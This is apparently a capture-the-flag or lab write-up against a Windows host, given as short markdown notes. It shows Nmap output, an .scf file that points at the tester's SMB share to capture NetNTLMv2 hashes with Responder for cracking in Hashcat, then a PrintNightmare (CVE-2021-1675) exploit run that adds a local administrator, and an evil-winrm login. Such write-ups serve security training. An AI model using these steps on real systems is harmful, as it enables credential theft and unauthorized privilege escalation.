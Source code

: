 #### Nmap scan results 
```
80/tcp   open  http         Microsoft IIS httpd 10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds                                       
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) (win-rm)
```

* Save the below code as .scf and find a way to upload it.
```
[Shell]
Command=2
IconFile=\\your_ip\share\pentestlab.ico
[Taskbar]
Command=ToggleDeskto
```
* Run Responder
```
responder -wrf --lm -v -I tun0
```
* Identify the hash with hashid
 should be NetNTLMv2 hash
 
* pass the hash and crack with Hashcat mode -m 5600
-------------------------------------------------------------

### CVE-2021-1675 (priv esc)
> github:https://github.com/calebstewart/CVE-2021-1675 

```
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Restricted
*Evil-WinRM* PS C:\temp> Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
*Evil-WinRM* PS C:\temp> Get-executionpolicy
Unrestricted
*Evil-WinRM* PS C:\temp> Import-Module .\print-nightmare.ps1
*Evil-WinRM* PS C:\temp> Invoke-Nightmare -NewUser "john" -NewPassword "password" -DriverName "PrintMe"

[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user john as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

```

* Open a new evil-winrm session
```
evil-winrm -i 192.168.1.1 -u john -p password
```
